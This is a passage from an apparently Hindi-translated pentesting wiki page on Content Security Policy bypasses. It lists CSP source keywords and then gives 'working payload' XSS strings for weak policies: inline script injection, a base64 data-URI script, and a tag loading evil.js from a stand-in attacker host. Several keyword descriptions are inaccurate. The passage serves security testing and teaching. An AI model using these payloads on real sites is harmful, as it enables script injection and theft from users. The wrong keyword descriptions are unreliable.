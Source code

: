* `'sha256-<hash>'`: एक विशिष्ट sha256 हैश के साथ स्क्रिप्ट को व्हाइटलिस्ट करता है।
* `'strict-dynamic'`: यदि इसे नॉनस या हैश द्वारा व्हाइटलिस्ट किया गया है तो किसी भी स्रोत से स्क्रिप्ट लोड करने की अनुमति देता है।
* `'host'`: एक विशिष्ट होस्ट निर्दिष्ट करता है, जैसे `example.com`।
* `https:`: उन URL को प्रतिबंधित करता है जो HTTPS का उपयोग करते हैं।
* `blob:`: Blob URLs (जैसे, JavaScript के माध्यम से बनाए गए Blob URLs) से संसाधनों को लोड करने की अनुमति देता है।
* `filesystem:`: फ़ाइल सिस्टम से संसाधनों को लोड करने की अनुमति देता है।
* `'report-sample'`: उल्लंघन रिपोर्ट में उल्लंघन करने वाले कोड का एक नमूना शामिल करता है (डीबगिंग के लिए उपयोगी)।
* `'strict-origin'`: 'self' के समान लेकिन सुनिश्चित करता है कि स्रोतों का प्रोटोकॉल सुरक्षा स्तर दस्तावेज़ से मेल खाता है (केवल सुरक्षित मूल सुरक्षित मूल से संसाधन लोड कर सकते हैं)।
* `'strict-origin-when-cross-origin'`: समान मूल अनुरोध करते समय पूर्ण URL भेजता है लेकिन केवल तब मूल भेजता है जब अनुरोध क्रॉस-ओरिजिन हो।
* `'unsafe-allow-redirects'`: संसाधनों को लोड करने की अनुमति देता है जो तुरंत किसी अन्य संसाधन पर रीडायरेक्ट करेंगे। सुरक्षा को कमजोर करने के कारण अनुशंसित नहीं है।

## Unsafe CSP Rules

### 'unsafe-inline'
```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-inline';
```
Working payload: `"/><script>alert(1);</script>`

#### self + 'unsafe-inline' via Iframes

{% content-ref url="csp-bypass-self-+-unsafe-inline-with-iframes.md" %}
[csp-bypass-self-+-unsafe-inline-with-iframes.md](csp-bypass-self-+-unsafe-inline-with-iframes.md)
{% endcontent-ref %}

### 'unsafe-eval'

{% hint style="danger" %}
यह काम नहीं कर रहा है, अधिक जानकारी के लिए [**यहाँ देखें**](https://github.com/HackTricks-wiki/hacktricks/issues/653).
{% endhint %}
```yaml
Content-Security-Policy: script-src https://google.com 'unsafe-eval';
```
काम करने वाला पेलोड:
```html
<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```
### strict-dynamic

यदि आप किसी तरह से एक **अनुमत JS कोड ने आपके JS कोड के साथ DOM में एक नया स्क्रिप्ट टैग बनाया**, क्योंकि एक अनुमत स्क्रिप्ट इसे बना रही है, तो **नया स्क्रिप्ट टैग निष्पादित होने की अनुमति दी जाएगी**।

### Wildcard (\*)
```yaml
Content-Security-Policy: script-src 'self' https://google.com https: data *;
```
काम करने वाला पेलोड:
```markup
"/>'><script src=https://attacker-website.com/evil.js></script>
"/>'><script src=data:text/javascript,alert(1337)></script>
```
### ऑब्जेक्ट-स्रोत और डिफ़ॉल्ट-स्रोत की कमी
